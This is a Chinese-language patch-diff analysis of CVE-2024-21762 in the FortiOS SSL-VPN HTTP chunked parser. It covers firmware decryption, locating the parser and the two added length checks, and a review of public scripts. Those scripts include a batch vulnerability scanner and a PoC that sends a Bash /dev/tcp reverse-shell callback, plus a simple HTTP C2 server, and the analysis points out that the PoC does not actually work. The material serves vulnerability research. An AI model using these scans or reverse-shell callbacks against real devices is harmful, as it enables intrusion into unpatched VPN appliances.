

CVE-2024-21762 是 FortiOS / FortiProxy SSL-VPN 请求解析链中的 out-of-bounds write。公开补丁研究将问题定位到 HTTP chunked Transfer-Encoding 处理逻辑。

复现主线是提取 FortiOS 7.2.5 与 7.2.7 的 `/bin/init`，从 HTTP 解析字符串定位目标函数，再还原补丁新增的两个长度边界。以下过程面向隔离的授权环境，不包含可直接触发 RCE 或进程崩溃的完整请求。

## 1. 版本与环境

FortiOS 7.2.0 至 7.2.6 受影响，7.2.7 修复。选择 7.2.5 和 7.2.7 进行对比，既贴近 Assetnote 的公开研究，也能把分析范围收敛到同一产品分支。

| 对照项 | 旧版本 | 修复版本 |
| --- | --- | --- |
| FortiOS | 7.2.5 | 7.2.7 |
| SSL-VPN | 使用相同配置启用 | 使用相同配置启用 |
| 网络 | 仅主机或私有 NAT | 仅主机或私有 NAT |
| 二进制 | rootfs 中的 `/bin/init` | rootfs 中的 `/bin/init` |

两台 VM 应采用一致的接口、证书、监听端口和 SSL-VPN 配置。测试机仅连接隔离网段，用于抓包、收集 debug 输出和比较请求响应。

版本、build、固件哈希与二进制哈希要在开始分析前记录下来。

## 2. 固件提取

FortiGate 更新镜像中的 `rootfs.gz` 可能经过签名检查和加密处理。`flatkc` 是恢复 rootfs 的入口，其中可见 `fgt_verify_decrypt`、`fgt_verifier_key_iv` 以及 ChaCha20 相关调用。

| 对象 | 用途 |
| --- | --- |
| `flatkc` | kernel image，定位 rootfs 解密函数与参数生成逻辑 |
| `rootfs.gz` | 解开后获得用户态文件系统 |
| `/bin/init` | FortiOS 大量用户态逻辑所在的核心分析对象 |
| `sslvpnd` | SSL-VPN 运行行为、日志和崩溃状态对应的进程 |


先把 `flatkc` 转为 ELF，再从符号或特征定位 `fgt_verify_decrypt`。该函数取得 key/IV 材料后进入 `crypto_chacha20_init` 与 `chacha20_docrypt`，输出可解包的 rootfs。


不同 FortiOS 分支的固件加密实现可能变化，因此应使用与 7.2.x 匹配的工具或按当前 `flatkc` 重新恢复参数。

得到 rootfs 后分别提取两个版本的 `/bin/init`，记录哈希并导入同一反编译器工程。

## 3. 定位 HTTP chunked parser

Assetnote 的分析从 `/bin/init` 中的 HTTP 字符串入手。优先搜索：

```text
Content-Length
Transfer-Encoding
chunked
chunked Transfer-Encoding forbidden
default_handler
```

从 `Content-Length` 和 `Transfer-Encoding` 的交叉引用可以圈定 HTTP header 解析函数；从 `chunked Transfer-Encoding forbidden` 向上追踪调用点，可以找到请求分派与 `default_handler` 邻近逻辑。

这里的关键不是某个固定 `/remote/...` URL，而是默认请求处理路径最终能够进入 chunked parser。

抽象调用链如下：



开启 `sslvpn` debug 后，包含 `chunked Transfer-Encoding forbidden` 的日志可以帮助把运行时请求与静态函数对应起来。

沿日志调用点反查时，应记录调用者、请求对象参数和错误返回值，而不是只依赖函数名。

```c
if (chunked_not_allowed) {
    log("chunked Transfer-Encoding forbidden: %s", request_path);
    return 400;
}
```

## 4. 7.2.5 与 7.2.7 补丁差异

对两个版本的 `/bin/init` 做函数匹配后，重点查看 chunked parser 中新增的条件分支。修复集中在两个位置。

### 4.1 chunk trailer 读取上限

旧版本在解析终止 chunk 后的 trailer headers 时，没有在进入后续处理前约束累计读取量。7.2.7 新增约 `0x400` 字节的上限：

```c
if (amount_read > 0x400) {
    log("invalid chunk trailer: too long");
    reject_request();
}
```

逆向时要追踪 `amount_read` 的初始值、每次读取后的更新位置以及它与目标缓冲区大小的关系。新增分支出现在 trailer 处理之前，说明补丁意图是在继续复制或解析前拒绝过长输入。

### 4.2 chunk length string 上限

HTTP chunk size 是十六进制文本。7.2.7 对保存 chunk length string 的字符数增加了上限，公开 diff 中的阈值为 `0x11`：

```c
if (chunk_length_string_len >= 0x11) {
    log("invalid chunk length string");
    reject_request();
}
```

这一限制作用于“数字字符串的长度”，不是解析后的 chunk data 长度。

分析时应分别标记字符累计、十六进制转换和最终数值三个阶段，否则容易把补丁误读成普通的 chunk body 大小限制。

两个新增条件都位于 chunked Transfer-Encoding 的边界处理位置，说明漏洞根因与 chunk size / trailer 的长度控制相关，而不是 SSL-VPN 认证逻辑本身。

## 5. chunked 数据结构与越界条件

标准 chunked body 的基本结构为：

```text
<chunk-size>\r\n
<chunk-data>\r\n
...
0\r\n
<trailer headers>\r\n
\r\n
```

解析器至少维护三类状态：chunk size 字符串、转换后的 chunk size 数值、终止 chunk 后的 trailer 读取位置。修复前缺少的两个上限分别保护前后两个阶段：

1. chunk size 文本过长时，字符累计或数值转换附近可能越过固定边界；
2. trailer 数据持续增长时，累计读取量可能超过后续处理缓冲区；
3. 两类问题最终都发生在预认证 HTTP 解析阶段，因此攻击者不需要先建立 VPN 会话；
4. 修复版在数据继续流入复制或解析路径前直接拒绝请求。

公开信息足以把根因定位到上述边界，但不足以仅凭伪代码推导稳定利用。真实内存破坏方式还取决于目标版本、架构、编译布局和请求对象结构。

## 6. 复现顺序

### 6.1 建立二进制对照

解开 7.2.5 与 7.2.7 的 rootfs，提取 `/bin/init`，在 Ghidra、IDA 配合 BinDiff/Diaphora 中完成函数匹配。先保存自动匹配结果，再人工查看 HTTP parser 周围新增的 basic block 和条件跳转。

### 6.2 由字符串进入目标函数

搜索 `Transfer-Encoding`、`chunked`、`Content-Length` 与 `default_handler`。为每个交叉引用记录：请求结构体参数、返回码、日志函数、上级调用者和下级数据处理函数。

若同一字符串有多个调用点，优先选择同时访问请求 header 和 body 状态的函数。

### 6.3 标注状态变量

在旧版本中分别标注：

- chunk length string 的当前位置与缓冲区；
- 十六进制转换后的长度变量；
- chunk data 剩余量；
- trailer 累计读取量；
- 错误返回和连接关闭路径。

将这些命名同步到修复版本，补丁新增的 `0x11` 与 `0x400` 分支就能直接落到相应状态变量上。

### 6.4 运行时对应

在两台隔离 VM 中开启相同级别的 SSL-VPN debug，发送不含攻击载荷的正常 chunked 请求和边界附近的受控请求。

同步抓取请求时间、HTTP 返回码、debug 文本和 `sslvpnd` 状态，再与反编译中的错误分支对应。

单目标检查脚本可用于对比两个版本的外部表现，通常给出 `Vulnerable`、`Patched` 或目标不像 FortiOS SSL-VPN 的警告。

它适合做环境基线，不替代对 `/bin/init` 补丁的分析。

### 6.5 形成闭环

一次完整复现应能回答四个问题：

1. 请求如何从 SSL-VPN HTTP parser 进入 chunked 处理函数；
2. 旧版本的 chunk length string 与 trailer 读取量在哪里失去边界；
3. 7.2.7 在哪些 basic block 增加拒绝条件；
4. 同类受控输入为何在修复版本提前返回，而不会继续进入旧处理路径。

## 7. 脚本与用法

### 7.1 `check-cve-2024-21762.py`

该脚本只使用 Python 标准库，通过一组 control request 和一组边界 request 判断目标行为，不需要安装第三方依赖。

```bash
python3 check-cve-2024-21762.py 192.168.56.20 10443
```

参数依次是 SSL-VPN 接口地址和端口。端口必须指向 SSL-VPN，而不是 FortiGate 管理界面，否则脚本虽然能够建立 TLS 连接，结果仍然没有意义。

脚本建立一个关闭证书检查的 TLS socket，默认连接和读取超时为 5 秒。第一条请求使用正常的终止 chunk：

```http
POST /remote/VULNCHECK HTTP/1.1
Transfer-Encoding: chunked

0
```

control request 用于确认服务可达。脚本预期响应包含 `HTTP/1.1 403 Forbidden`；若没有该状态行，会提示目标不像 FortiOS SSL-VPN，但仍会继续第二步。

第二条请求提交超长的 chunk length string。旧版本进入有缺陷的解析路径后通常不返回数据，修复版本则会拒绝请求并返回响应。脚本按照 socket 结果映射状态：

| 阶段与条件 | 输出 |
| --- | --- |
| control 连接失败 | `Connection Failed` |
| control 读取超时 | `Control request failed` |
| control 收到数据 | 继续发送 check request |
| check 读取超时 | `Vulnerable` |
| check 收到数据 | `Patched` |
| check 连接失败 | 当前代码也返回 `Patched`，没有单独区分异常 |

因此 `Vulnerable` 的含义是“第二条请求在超时时间内没有收到响应”，不是已经完成代码执行。网络抖动、SSL-VPN 负载、错误端口和中间设备都可能影响结果。

对照测试时应在 7.2.5 与 7.2.7 上使用相同超时和网络条件。

### 7.2 `poc_check.py`

`poc_check.py` 把相同的 control/check 逻辑改成批量输入，并增加 `tqdm` 进度条。先安装依赖：

```bash
python3 -m venv .venv
source .venv/bin/activate
python3 -m pip install tqdm
```

输入文件分别保存 IP 和端口，每行一个值：

```text
# ips.txt
192.168.56.20
192.168.56.21
```

```text
# ports.txt
443
10443
```

运行方式：

```bash
python3 poc_check.py -i ips.txt -p ports.txt -o results.csv
```

脚本会计算 IP 与端口的笛卡尔积，并逐项写入 CSV：

```text
ip,port,result
192.168.56.20,10443,Vulnerable
192.168.56.21,10443,Patched
```

批量模式不会判断某个端口是否属于同一台设备的管理面，也没有重试、并发或结果置信度计算。个人实验中应只放入已知的隔离 VM 地址，避免把错误端口产生的结果混入统计。

### 7.3 `poc_rce.py`

命令行接口提供单目标和文件输入两种模式：

```bash
python3 poc_rce.py \
  --target 192.168.56.20:10443 \
  --callback-ip 192.168.56.10 \
  --callback-port 8080
```

```bash
python3 poc_rce.py \
  --input targets.txt \
  --output results.txt \
  --callback-ip 192.168.56.10 \
  --callback-port 8080
```

当前生效代码会把 callback 参数拼入 Bash reverse-shell 字符串，将 `host=<command>&` 重复 20 次后发送到 `/remote/hostcheck_validate`，随后把 HTTP 响应写入 `last_response.txt`。

函数只要完成 `sendall()` 就返回成功，终端中的 `Exploit sent` 只表示请求已写入 socket。

这份代码不能作为 CVE-2024-21762 RCE 成功的判定：

- socket 使用明文 TCP，没有执行 TLS 握手，而 SSL-VPN 端口通常要求 TLS；
- 生效请求使用 `Content-Length`，没有进入本漏洞对应的 chunked length/trailer 触发链；
- `host` 表单值没有经过 shell 执行路径，单纯发送命令字符串不等于命令注入；
- 注释块中的超长 chunk 请求未执行，也没有完整 ROP 链；
- 返回值只表示发送成功，没有检查进程崩溃、命令输出或 callback；
- README 使用的 `exploit.py` 文件名与仓库中的 `poc_rce.py` 不一致。

所以该脚本适合阅读参数拼接、请求保存和单目标/批量控制结构，不适合作为漏洞利用结果。真正的复现闭环仍应回到 chunked parser 的补丁差异和两个版本的受控行为。

### 7.4 `http_c2_server.py`

该文件是一个独立的简易 HTTP 命令服务，默认绑定 `0.0.0.0:8080`：

```bash
python3 http_c2_server.py
```

GET 请求返回当前 `COMMAND`，POST 请求把 body 打印到终端，后台线程从 `C2>` 输入更新命令。服务没有认证、TLS、来源限制和日志保护，只能放在隔离网段中短时调试。

它与当前 `poc_rce.py` 的 Bash `/dev/tcp` 回连方式并不配套：后者期望原始 TCP shell，前者实现 HTTP GET/POST 协议。即使两个脚本同时启动，也不会自动形成可用的命令通道。

## 8. 分析结论

CVE-2024-21762 的技术链集中在 SSL-VPN 的 HTTP chunked parser。通过 7.2.5 与 7.2.7 的 `/bin/init` 对比，可以看到修复版分别限制 chunk length string 和 trailer 累计读取量。

字符串交叉引用用于定位 parser，debug 日志用于连接运行时请求，basic block 差异则说明补丁如何在越界写之前截断处理链。

## 延伸阅读

- [FortiGuard FG-IR-24-015](https://www.fortiguard.com/psirt/FG-IR-24-015)
- [Assetnote: Two Bytes is Plenty](https://www.assetnote.io/resources/research/two-bytes-is-plenty-fortigate-rce-with-cve-2024-21762)
- [Bishop Fox: cve-2024-21762-check](https://github.com/BishopFox/cve-2024-21762-check)
- [abrewer251: CVE-2024-21762_FortiNet_PoC](https://github.com/abrewer251/CVE-2024-21762_FortiNet_PoC)
- [Akamai: Exploring a VPN Appliance](https://www.akamai.com/blog/security-research/fortinet-critical-vulnerabilities)
- [noways-io: fortigate-crypto](https://github.com/noways-io/fortigate-crypto)
- [Bishop Fox: Further Adventures in Fortinet Decryption](https://bishopfox.com/blog/further-adventures-in-fortinet-decryption)
